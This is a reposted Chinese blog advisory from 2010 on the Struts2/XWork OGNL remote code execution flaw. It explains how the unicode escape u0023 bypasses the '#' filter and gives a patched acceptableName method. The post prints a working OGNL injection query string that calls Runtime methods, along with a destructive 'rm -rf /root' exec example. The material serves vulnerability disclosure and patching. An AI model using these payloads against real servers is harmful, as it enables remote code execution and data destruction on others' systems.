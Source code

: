 ```yaml
---
id: 503
title: 'struts2的用户请注意这个超级安全漏洞[转]'
date: 2010-08-04T18:47:20+00:00
author: 刘长炯
layout: post
guid: http://www.beansoft.biz/?p=503
permalink: '/2010/08/04/struts2%e7%9a%84%e7%94%a8%e6%88%b7%e8%af%b7%e6%b3%a8%e6%84%8f%e8%bf%99%e4%b8%aa%e8%b6%85%e7%ba%a7%e5%ae%89%e5%85%a8%e6%bc%8f%e6%b4%9e%e8%bd%ac/'
views:
  - "4453"
original_post_id:
  - "503"
categories:
  - Struts
---
```

来源: [http://www.blogjava.net/ywj-316/archive/2010/07/30/327596.html](http://www.blogjava.net/ywj-316/archive/2010/07/30/327596.html "http://www.blogjava.net/ywj-316/archive/2010/07/30/327596.html") 壹咪阳光

最近发现 struts 2的这个严重安全漏洞，在http://www.javaeye.com/topic/720209中已经有所表述，主要是ＯＧＮＬ的问题，摘录如下：   
exploit-db网站在7月14日爆出了一个Struts2的远程执行任意代码的漏洞。   
漏洞名称：Struts2/XWork < 2.2.0 Remote Command Execution Vulnerability   
相关介绍：   
http://www.exploit-db.com/exploits/14360/   
http://sebug.net/exploit/19954/   
Struts2的核心是使用的webwork框架，处理 action时通过调用底层的getter/setter方法来处理http的参数，它将每个http参数声明为一个ONGL（这里是ONGL的介绍）语句。当我们提交一个http参数：   
Java代码   
?user.address.city=Bishkek&user[&#8216;favoriteDrink&#8217;]=kumys&#160;   
?user.address.city=Bishkek&user[&#8216;favoriteDrink&#8217;]=kumys   
ONGL将它转换为：   
Java代码   
action.getUser().getAddress().setCity("Bishkek")&#160;&#160;   
action.getUser().setFavoriteDrink("kumys")&#160;   
action.getUser().getAddress().setCity("Bishkek")   
action.getUser().setFavoriteDrink("kumys")   
这是通过ParametersInterceptor（参数过滤器）来执行的，使用用户提供的HTTP参数调用 ValueStack.setValue()。   
为了防范篡改服务器端对象，XWork的ParametersInterceptor不允许参数名中出现“#”字符，但如果使用了Java的 unicode字符串表示u0023，攻击者就可以绕过保护，修改保护Java方式执行的值：   
此处代码有破坏性，请在测试环境执行，严禁用此种方法进行恶意攻击   
Java代码   
?(&#8216;u0023_memberAccess[&#8216;allowStaticMethodAccess&#8217;]&#8217;)(meh)=true&(aaa)((&#8216;u0023context[&#8216;xwork.MethodAccessor.denyMethodExecution&#8217;]u003du0023foo&#8217;)(u0023foou003dnew%20java.lang.Boolean("false")))&(asdf)((&#8216;u0023rt.exit(1)&#8217;)(u0023rtu003d@java.lang.Runtime@getRuntime()))=1&#160;   
?(&#8216;u0023_memberAccess[&#8216;allowStaticMethodAccess&#8217;]&#8217;)(meh)=true&(aaa)((&#8216;u0023context[&#8216;xwork.MethodAccessor.denyMethodExecution&#8217;]u003du0023foo&#8217;)(u0023foou003dnew%20java.lang.Boolean("false")))&(asdf)((&#8216;u0023rt.exit(1)&#8217;)(u0023rtu003d@java.lang.Runtime@getRuntime()))=1   
转义后是这样：   
Java代码   
?(&#8216;#_memberAccess[&#8216;allowStaticMethodAccess&#8217;]&#8217;)(meh)=true&(aaa)((&#8216;#context[&#8216;xwork.MethodAccessor.denyMethodExecution&#8217;]=#foo&#8217;)(#foo=new%20java.lang.Boolean("false")))&(asdf)((&#8216;#rt.exit(1)&#8217;)(#rt=@java.lang.Runtime@getRuntime()))=1&#160;   
?(&#8216;#_memberAccess[&#8216;allowStaticMethodAccess&#8217;]&#8217;)(meh)=true&(aaa)((&#8216;#context[&#8216;xwork.MethodAccessor.denyMethodExecution&#8217;]=#foo&#8217;)(#foo=new%20java.lang.Boolean("false")))&(asdf)((&#8216;#rt.exit(1)&#8217;)(#rt=@java.lang.Runtime@getRuntime()))=1   
OGNL处理时最终的结果就是Java代码   
java.lang.Runtime.getRuntime().exit(1);&#160;   
java.lang.Runtime.getRuntime().exit(1);   
类似的可以执行Java代码   
java.lang.Runtime.getRuntime().exec("rm –rf /root")&#160;   
java.lang.Runtime.getRuntime().exec("rm –rf /root")，只要有权限就可以删除任何一个目录。   
目前的解决方法如下，官方的出了补丁的，可以在   
http://svn.apache.org/viewvc?view=revision&revision=956389   
目前２．１．８的最新版本的，可以下载其中这个补丁修补，   
而如果你的版本是低于２．１．８的，可以去下载xwork-2.XX.JAR对应的源代码（本来想反编译ＪＡＲ的，发现还是找源代码好），   
然后修改其中的com/opensymphone/xwork2/interceptor/ParameterInterceptor.java   
在其中的acceptableName方法中调整如下：   
protected boolean acceptableName(String name) {   
&#160;&#160;&#160;&#160;&#160;&#160; boolean foundMatch=false;&#160;&#160;   
&#160;&#160;&#160;&#160;&#160;&#160;&#160; foundMatch = name.contains("\u0023");&#160;&#160;   
&#160;&#160;&#160;&#160;&#160;&#160;&#160; if(foundMatch){&#160;&#160;   
&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160; return false;&#160;&#160;   
&#160;&#160;&#160;&#160;&#160;&#160;&#160; }   
&#160;&#160;&#160;&#160;&#160;&#160;&#160; if (name.indexOf(&#8216;=&#8217;) != -1 || name.indexOf(&#8216;,&#8217;) != -1 || name.indexOf(&#8216;#&#8217;) != -1   
&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160; || name.indexOf(&#8216;:&#8217;) != -1 || isExcluded(name)) {   
&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160; return false;   
&#160;&#160;&#160;&#160;&#160;&#160;&#160; } else {   
&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160; return true;   
&#160;&#160;&#160;&#160;&#160;&#160;&#160; }   
&#160;&#160;&#160; }

转载请注明：[WebLogic Android 博客](http://www.beansoft.biz) &raquo; [struts2的用户请注意这个超级安全漏洞[转]](http://www.beansoft.biz/2010/08/04/struts2%e7%9a%84%e7%94%a8%e6%88%b7%e8%af%b7%e6%b3%a8%e6%84%8f%e8%bf%99%e4%b8%aa%e8%b6%85%e7%ba%a7%e5%ae%89%e5%85%a8%e6%bc%8f%e6%b4%9e%e8%bd%ac/)
